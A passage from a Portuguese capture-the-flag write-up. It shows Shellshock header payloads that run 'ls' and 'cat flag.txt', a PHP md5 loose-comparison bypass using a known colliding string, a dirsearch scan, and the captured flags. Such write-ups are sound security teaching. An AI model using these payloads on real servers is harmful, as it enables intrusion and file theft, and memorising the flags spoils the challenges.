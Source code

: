 ```bash
() { :; }; echo ls; #valor do header no request1
() { :; }; cat flag.txt; #valor do header no request2
```

Nossa flag ZUP-{7623478647386243274}

E cara.. que vulnerabilidade bizarra!

### Internal Problems ###

Esse desafio estava disponível no endereço http://challenges.ctfd.io:30106/ e nos apresenta uma página html contendo um código em php, supostamente
o código que está rodando no servidor. 

Este código contém um include para um arquivo chamado secret.php, que provavelmente é a nossa flag, porém acessível somente caso o if abaixo seja
atingido

```php
<?php

if (
    isset($_POST['pepino']) &&
    $_POST['pepino'] != 'aabC9RqS' &&
    md5('aabC9RqS') == md5($_POST['pepino'])
) {
    include('secret.php');
    print $super_secret;
} else {
    show_source(__FILE__);
}
```

Num primeiro momento, aparentemente somente a string `aabC9RqS` deveria ser enviada para que o md5 gerasse o mesmo hash e a condição do if fosse alcançada,
porém o mesmo if trata de não nos permitir enviar essa string.

Sabendo da existência de colisões no algoritmo de hash md5, procuro no google pelo termo utilizado no if `aabC9RqS` a fim de verificar se já existe algum outro valor conhecido que colida com este e acabo encontrando seu par de colisão: `aabg7XSs`. Basta então enviar esse segundo no request e a flag ZUP-{ju66l1n6_b3_my_6u1d3} nos é retornada :)


### Jail Want Tonic ###

O desafio disponível em http://18.231.79.49/ nos apresenta uma página html com um bom tom de humor, satirizando empresas "faz tudo" e descoladas xD.
Ao executar o dirseach na página encontro alguns diretórios interessantes, que num primeiro momento apesar de indicados na própria pagina haviam passado batidos

```shell
dirsearch -u http://18.231.79.49/
```
